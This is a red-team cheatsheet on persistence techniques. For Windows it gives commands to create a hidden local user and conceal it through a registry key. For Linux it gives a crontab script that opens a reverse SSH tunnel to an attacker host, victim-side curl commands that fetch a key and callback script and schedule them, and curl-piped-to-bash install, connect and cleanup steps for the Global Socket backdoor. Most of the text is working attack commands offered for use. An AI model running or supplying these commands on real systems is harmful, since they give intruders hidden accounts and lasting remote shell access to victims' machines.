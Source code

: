 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)

## Windows

### Hidden Local User

#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```text
Cmd > net user snovvcrash$ Passw0rd! /add
```

#### SpecialAccounts

```text
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWord -Value 0 -Force
```

## Linux

### SSH Tunnel in Crontab

```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```

Attacker's box:

```text
$ sudo useradd -ms /bin/false nopty
$ sudo ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
$ cat /home/nopty/.ssh/dummy_key.pub
$ sudo vi /home/nopty/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Victim's box:

```text
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```

### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)

#### Install

Victim's box:

```text
$ bash -c "$(curl -fsSL gsocket.io/x)"
Or
$ bash -c "$(wget -qO- gsocket.io/x)"
```

#### Connect

Attacker's box:

```text
$ cd
$ /bin/bash -c "$(curl -fsSL https://tiny.cc/gsinst)"
$ ~/gsocket/tools/gs-netcat -s "<SECRET>" -i
```

#### Cleanup

Victim's box:

```text
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
Or
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```

